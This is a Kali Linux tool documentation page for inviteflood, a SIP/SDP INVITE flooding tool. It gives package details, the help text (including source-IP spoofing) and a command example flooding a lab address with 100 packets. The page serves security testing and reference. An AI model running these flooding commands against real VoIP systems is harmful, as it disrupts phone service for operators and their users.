 ```yaml
---
Title: inviteflood
Homepage: http://www.hackingvoip.com/sec_tools.html
Repository: https://gitlab.com/kalilinux/packages/inviteflood
Architectures: any
Version: 2.0-1kali2
Metapackages: kali-linux-everything kali-linux-large kali-tools-voip kali-tools-vulnerability 
Icon: /images/kali-tools-icon-missing.svg
PackagesInfo: |
 ### inviteflood
 
  A tool to perform SIP/SDP INVITE message flooding over
  UDP/IP. It was tested on a Linux Red Hat Fedora Core 4
  platform (Pentium IV, 2.5 GHz), but it is expected this
  tool will successfully build and execute on a variety of
  Linux distributions.
 
 **Installed size:** `33 KB`  
 **How to install:** `sudo apt install inviteflood`  
 
 {{< spoiler "Dependencies:" >}}
 * libc6 
 * libnet1 
 {{< /spoiler >}}
 
 ##### inviteflood
 
 
 ```
 root@kali:~# inviteflood -h
 
 inviteflood - Version 2.0
               June 09, 2006
  Usage:
  Mandatory -
 	interface (e.g. eth0)
 	target user (e.g. "" or john.doe or 5000 or "1+210-555-1212")
 	target domain (e.g. enterprise.com or an IPv4 address)
 	IPv4 addr of flood target (ddd.ddd.ddd.ddd)
 	flood stage (i.e. number of packets)
  Optional -
 	-a flood tool "From:" alias (e.g. jane.doe)
 	-i IPv4 source IP address [default is IP address of interface]
 	-S srcPort  (0 - 65535) [default is well-known discard port 9]
 	-D destPort (0 - 65535) [default is well-known SIP port 5060]
 	-l lineString line used by SNOM [default is blank]
 	-s sleep time btwn INVITE msgs (usec)
 	-h help - print this usage
 	-v verbose output mode
 
 ```
 
 - - -
 
---
```

{{% hidden-comment "<!--Do not edit anything above this line-->" %}}

## inviteflood Usage Example

Using the eth0 interface (`eth0`) and the provided user (`5000`), flood the target domain (`example.local`) and flood target (`192.168.1.5`) using 100 packets (`100`):

```
root@kali:~# inviteflood eth0 5000 example.local 192.168.1.5 100

inviteflood - Version 2.0
              June 09, 2006

source IPv4 addr:port   = 192.168.1.202:9
dest   IPv4 addr:port   = 192.168.1.5:5060
targeted UA             = 5000@192.168.1.1

Flooding destination with 100 packets
sent: 100
```
